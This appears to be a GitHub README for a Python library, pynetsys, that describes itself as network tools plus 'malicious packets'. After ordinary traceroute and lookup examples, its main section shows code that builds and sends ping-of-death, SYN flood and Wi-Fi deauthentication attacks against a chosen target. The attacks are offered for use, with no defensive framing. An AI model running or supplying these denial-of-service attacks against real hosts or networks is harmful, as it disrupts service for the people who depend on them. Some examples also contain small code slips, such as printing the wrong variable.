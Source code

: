 # PYNETSYS

pynetsys is a collection of tools and malicious packets..

Developed by Andrea Vaccaro from ANDRVV (c) 2022

# Installing

Linux, MacOS = ```pip3 install pynetsys --user```

Windows = ```pip install pynetsys --user```

# Tools

```python
import pynetsys

trace = pynetsys.tool.traceroute("python.org") --> list
print(trace)

arping = pynetsys.tool.arp() --> dict
print(arping)

hostinfo = pynetsys.tool.hostlookup("python.org") --> dict
print(hostinfo)

networks = pynetsys.tool.networkFinder() --> dict
print(hostinfo)

```

# Create malicious packet and send

```python
import pynetsys

PACKET, ID = packet(target = "example.org", attack = Packets.DEATH_PING)
start(PACKET, ID, _verbose = 0)

PACKET, ID = packet(target = "example.org", attack = Packets.SYN_FLOOD)
start(PACKET, ID, _verbose = 0)

PACKET, ID = packet(target = "aa:bb:cc:dd:ee:ff", attack = Packets.WIRELESS_DEAUTH)
start(PACKET, ID, _verbose = 0)

```